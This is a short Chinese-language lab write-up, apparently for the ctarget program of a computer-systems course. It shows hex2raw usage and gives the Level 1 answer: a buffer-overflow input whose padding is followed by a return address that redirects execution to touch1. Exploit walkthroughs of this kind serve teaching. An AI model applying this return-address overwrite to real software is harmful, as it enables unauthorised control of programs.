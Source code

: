 编辑输入文件 `exploit.txt`：

```bash
vim exploit.txt
```

```text
68 65 6c 6c 6f
```

使用 hex2raw 还原字符串：

```bash
./hex2raw < exploit.txt > exploit_raw.txt
```

查看输出文件 `exploit_raw.txt`：

```bash
cat exploit_raw.txt
```

```text
hello
```

##### 0.2.2 输入字符串

以 `ctarget` 程序为例：

```bash
./ctarget -q < exploit_raw.txt
```

输出信息：

```text
Cookie: 0x59b997fa
Type string:No exploit.  Getbuf returned 0x1
Normal return
```

### Level 1: Code Injection

#### 1.1 本关目标

执行函数 `touch1`。

#### 1.2 本关解答

`exploit.txt` 中的内容：

```text
c2 a9 20 32 30 31 39 20
43 6f 70 79 72 69 67 68
74 20 48 61 6b 75 6c 61
2c 20 43 43 20 42 59 2d
4e 43 2d 53 41 20 00 00
c0 17 40 00 00 00 00 00
```
